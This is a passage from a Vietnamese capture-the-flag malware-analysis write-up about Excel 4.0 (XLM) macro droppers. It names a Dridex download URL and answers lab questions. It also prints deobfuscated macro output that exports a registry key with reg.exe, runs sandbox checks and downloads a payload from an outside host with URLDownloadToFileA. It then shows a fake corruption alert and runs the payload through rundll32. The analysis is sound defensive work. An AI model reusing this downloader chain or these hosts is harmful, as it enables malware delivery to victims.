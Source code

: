 ```
- Nhìn vào đây, ta thấy rằng chúng đang tải 1 file exe xuống từ `rilaer.com` sau đó thực thi
> http://rilaer.com
#### Sample1: What malware family was this document attempting to drop?
- Mình có truy cập thử đường dẫn này nhưng nó đã bị die, tìm kiếm trên các báo cáo theo đường dẫn mã độc này ta thu được câu trả lời 
- ![image](https://hackmd.io/_uploads/HJsBneUxJx.png)

> dridex

#### Sample2: This document has a very hidden sheet. What is the name of this sheet?
- Tương tự như câu 2, ta dễ dàng xác định được sheet ẩn 
- ![image](https://hackmd.io/_uploads/S11SHyHxyg.png)
> CSHykdYHvi

#### Sample2: This document uses reg.exe. What registry key is it checking?
- Ta sử dụng olevba để xem macro code của nó 
> olevba sample2.xlsm
- Tương tự sample1, nó bị Obfuscator
- ![image](https://hackmd.io/_uploads/SkwtzrBx1l.png)
- Tiếp tục dùng [XLMMacroDeobfuscator](https://github.com/DissectMalware/XLMMacroDeobfuscator) để Deobfuscator nó 


<details>
<summary>
python deobfuscator.py -f ~/Downloads/c38-xlm-macros/sample2.xlsm
</summary>
    
```
SHRFMLA (sub): 0 0 1 8 6
SHRFMLA (sub): 9 9 1 8 8
SHRFMLA (sub): 19 19 1 7 7
SHRFMLA (sub): 26 26 0 7 8
auto_open: auto_open->'CSHykdYHvi'!$J$727
[Starting Deobfuscation]
CELL:J727      , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open","C:\Windows\system32\reg.exe","EXPORT HKCU\Software\Microsoft\Office\GET.WORKSPACE(2)\Excel\Security c:\users\public\1.reg /y",0,5)
CELL:J728      , PartialEvaluation   , =WAIT("45587.18159722222500:00:03")
CELL:J729      , FullEvaluation      , FOPEN("c:\users\public\1.reg",1)
CELL:J730      , PartialEvaluation   , =FPOS(FOPEN("c:\users\public\1.reg",1),215)
CELL:J732      , PartialEvaluation   , =FCLOSE(FOPEN("c:\users\public\1.reg",1))
CELL:J733      , PartialEvaluation   , =FILE.DELETE("c:\users\public\1.reg")
CELL:J734      , Branching           , IF(ISNUMBER(SEARCH("0001",J731)),CLOSE(FALSE),GOTO(J1))
CELL:J734      , FullEvaluation      , [FALSE] GOTO(J1)
CELL:J1        , FullEvaluation      , FORMULA("=IF(GET.WORKSPACE(13)<770, CLOSE(FALSE),)",K2)
CELL:J2        , FullEvaluation      , FORMULA("=IF(GET.WORKSPACE(14)<381, CLOSE(FALSE),)",K4)
CELL:J4        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(GET.WORKSPACE(19),,CLOSE(TRUE))",K5)
CELL:J5        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(GET.WORKSPACE(42),,CLOSE(TRUE))",K6)
CELL:J6        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(ISNUMBER(SEARCH(""Windows"",GET.WORKSPACE(1))), ,CLOSE(TRUE))",K7)
CELL:J7        , FullEvaluation      , FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
CELL:J8        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1ALERT(""The workbook cannot be opened or repaired by Microsoft Excel because it's corrupt."",2)",K9)
CELL:J9        , FullEvaluation      , FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
CELL:J11       , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1CLOSE(FALSE)",K12)
CELL:J12       , PartialEvaluation   , =WORKBOOK.HIDE("CSHykdYHvi",TRUE)
CELL:J13       , FullEvaluation      , GOTO(K2)